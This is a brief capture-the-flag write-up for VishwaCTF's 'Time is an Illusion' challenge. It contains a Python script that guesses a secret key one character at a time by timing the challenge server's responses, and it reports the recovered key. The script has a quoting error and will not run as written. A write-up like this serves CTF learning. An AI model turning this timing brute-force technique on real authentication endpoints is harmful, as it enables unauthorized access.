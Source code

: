 # Time is an Illusion
```python
import requests
import string
t=[]
for i in string.printable:
  x = requests.get("https://time-is-an-illusion.vishwactf.com/handle.php?key=str(i)+"_____")
  t.append(x.elapsed.total_seconds())
  print(x.elapsed.total_seconds(),i)
print(max(t))

```
* Manully run the script for each charater in final we get the kye as `KuKa9`
